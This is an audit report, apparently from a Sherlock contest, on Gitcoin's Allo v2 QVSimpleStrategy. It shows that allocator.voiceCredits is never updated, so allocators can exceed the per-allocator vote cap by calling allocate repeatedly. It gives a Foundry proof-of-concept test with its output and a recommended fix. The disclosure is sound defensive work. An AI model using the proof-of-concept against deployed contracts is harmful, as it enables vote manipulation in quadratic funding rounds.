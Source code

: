 Energetic Berry Llama

high

# Allocators can allocate as much as they want in `QVSimpleStrategy`
There is a maximum limit for every allocator in the `QVSimpleStrategy`, but this limit only applies for each allocation call. Allocator can repetitively allocate voice credits up to maximum limit, and allocate as much as they want.

## Vulnerability Detail
Allocators allocate their `voiceCredits` to a recipient and the corresponding vote count of the recipient is calculated according to these `voiceCredits` in Quadratic Voting strategies.  
Allocators have a maximum limit to allocate which is determined during initialization with `maxVoiceCreditsPerAllocator` variable. Each allocator is tracked with `Allocator` struct.

```solidity
    /// @notice The details of the allocator
    struct Allocator {
        // slot 0
        uint256 voiceCredits;
        // slots [1...n]
        mapping(address => uint256) voiceCreditsCastToRecipient;
        mapping(address => uint256) votesCastToRecipient;
    }
```

`QVSimpleStrategy::_allocate()` function validates if the allocator has enough `voiceCredits` left with the internal `_hasVoiceCreditsLeft()` function.

[https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/qv-simple/QVSimpleStrategy.sol#L121](https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/qv-simple/QVSimpleStrategy.sol#L121)

```solidity
file: QVsimpleStrategy.sol 
   function _allocate(bytes memory _data, address _sender) internal virtual override {
        (address recipientId, uint256 voiceCreditsToAllocate) = abi.decode(_data, (address, uint256));

        // spin up the structs in storage for updating
        Recipient storage recipient = recipients[recipientId];
        Allocator storage allocator = allocators[_sender];

        // check that the sender can allocate votes
        if (!_isValidAllocator(_sender)) revert UNAUTHORIZED();

        // check that the recipient is accepted
        if (!_isAcceptedRecipient(recipientId)) revert RECIPIENT_ERROR(recipientId);

        // check that the recipient has voice credits left to allocate
-->     if (!_hasVoiceCreditsLeft(voiceCreditsToAllocate, allocator.voiceCredits)) revert INVALID(); //@audit allocator.voiceCredits is never updated. It is always 0.

        _qv_allocate(allocator, recipient, recipientId, voiceCreditsToAllocate, _sender);
    }
```

`_allocate()` function passes `voiceCreditsToAllocate` and `allocator.voiceCredits` parameters to the `_hasVoiceCreditsLeft` function. And the `_hasVoiceCreditsLeft` function is below:

[https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/qv-simple/QVSimpleStrategy.sol#L144C1-L151C6](https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/qv-simple/QVSimpleStrategy.sol#L144C1-L151C6)

```solidity
    function _hasVoiceCreditsLeft(uint256 _voiceCreditsToAllocate, uint256 _allocatedVoiceCredits)
        internal
        view
        override
        returns (bool)
    {
        return _voiceCreditsToAllocate + _allocatedVoiceCredits <= maxVoiceCreditsPerAllocator;
    }
```

This function checks if the sum of the `_voiceCreditsToAllocate` (credits to be allocated) and `_allocatedVoiceCredits` (already allocated credits) is smaller than the max limit.

The reason for the vulnerability is that the already allocated voice credits are never updated. `allocator.voiceCreditsCastToRecipient` and `allocator.votesCastToRecipient` are updated in the [`QVBaseStrategy::_qv_allocate()`](https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/qv-base/QVBaseStrategy.sol#L529C1-L530C69) function but [`allocator.voiceCredits`](https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/qv-simple/QVSimpleStrategy.sol#L121C59-L121C81) is never updated, and always 0.

## Coded PoC

You can use the protocol's own setup to prove the PoC below.  
\- Copy the code snippet and paste it into the `QVSimpleStrategy.t.sol` test file.  
\- Run it with `forge test --match-test test_allocateAgainAndAgainWithMaxVoiceCredit -vvvv`

```solidity
    //@audit Use the max voice credit and allocate repetitively.
    function test_allocateAgainAndAgainWithMaxVoiceCredit() public {
        address recipientId = __register_accept_recipient();
        address allocator = randomAddress();

        vm.startPrank(pool_manager2());
        // Add the allocator
        qvSimpleStrategy().addAllocator(allocator);
        
        // Start the allocation period
        vm.warp(allocationStartTime + 10);

        // Max voice credit is 100.
        // Create allocation data with max voice credit and another data with max voice credit + 1
        bytes memory allocateDataMaxCredit = __generateAllocation(recipientId, 100);
        bytes memory allocateDataMaxCreditPlus1 = __generateAllocation(recipientId, 101);
        vm.stopPrank();

        vm.startPrank(address(allo()));

        // Allocate with max credit.
        qvSimpleStrategy().allocate(allocateDataMaxCredit, allocator);

        // Allocate with max credit again.
        qvSimpleStrategy().allocate(allocateDataMaxCredit, allocator);

        // One more time :) https://www.youtube.com/watch?v=FGBhQbmPwH8
        qvSimpleStrategy().allocate(allocateDataMaxCredit, allocator);

        // We allocated 3 times with max voice credit.
        // Revert when we try only one time with max voice credit + 1.
        vm.expectRevert(abi.encodeWithSelector(INVALID.selector));
        qvSimpleStrategy().allocate(allocateDataMaxCreditPlus1, allocator);
    }
```

You can see the test results below:

```solidity
Running 1 test for test/foundry/strategies/QVSimpleStrategy.t.sol:QVSimpleStrategyTest
[PASS] test_allocateAgainAndAgainWithMaxVoiceCredit() (gas: 338291)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 18.58ms
 
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

## Impact
Allocators can allocate as much as they want.

## Code Snippet
https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/qv-simple/QVSimpleStrategy.sol#L121

```solidity
        if (!_hasVoiceCreditsLeft(voiceCreditsToAllocate, allocator.voiceCredits)) revert INVALID();
```

[https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/qv-simple/QVSimpleStrategy.sol#L144C1-L151C6](https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/qv-simple/QVSimpleStrategy.sol#L144C1-L151C6)

```solidity
    function _hasVoiceCreditsLeft(uint256 _voiceCreditsToAllocate, uint256 _allocatedVoiceCredits)
        internal
        view
        override
        returns (bool)
    {
        return _voiceCreditsToAllocate + _allocatedVoiceCredits <= maxVoiceCreditsPerAllocator;
    }
```


## Tool used

Manual Review

## Recommendation
Update the `allocator.voiceCredits` too after allocation.